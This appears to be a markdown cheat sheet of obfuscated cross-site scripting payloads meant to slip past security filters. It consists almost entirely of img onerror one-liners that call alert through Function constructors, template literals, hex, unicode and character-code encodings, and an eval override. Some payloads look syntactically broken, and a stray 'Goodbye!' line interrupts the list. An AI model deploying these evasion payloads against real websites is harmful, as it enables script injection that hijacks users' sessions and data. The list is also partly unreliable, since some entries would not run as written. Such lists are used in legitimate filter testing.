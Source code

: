 # Obfuscated XSS

The art of hiding Cross-Site Scripting (XSS) payloads to bypass security filters.

Goodbye!

```
<img src onerror=alert`1`>
```

----------

### filter.constructor

```
<img src=x onerror="[].filter.constructor('('+('al'+'ert')+')(1)')()">
<img src=x onerror="[].filter.constructor(''+String.fromCharCode(97,108,101,114,116)+'(1)')()">
<img src=x onerror="[].filter.constructor('\u0061\u006c\u0065\u0072\u0074(1)')()">
<img src=x onerror="[].filter.constructor('\x61\x6c\x65\x72\x74(1)')()">
<img src=x onerror="[]['filter']['constructor'](('al'+[]['filter']['name'])[0]+('ert')(1))">
```

### Simple Tagged template literal abuse

```
<img src=x onerror="Function`al\x65rt\x28'XSS'\x29`()">
```

### Indirect function call obfuscation with Symbol.hasInstance abuse and instanceof override

```
<img src=x onerror="([][Symbol.hasInstance]=eval,[]instanceof{[Symbol.hasInstance](){('al'+'ert')(0)}})">
```

### Function constructor via template literal with Hex-encoded payload

```
<img src=x onerror="Function`\x61\x6c\x65\x72\x74\x28\x31\x29`()">
```

## Function constructor with String.fromCharCode Encoding

```
<img src=x onerror="(Function(String.fromCharCode(115,101,116,84,105,109,101,111,117,116,40,39,97,108,101,114,116,40,49,41,39,41)))()">
```

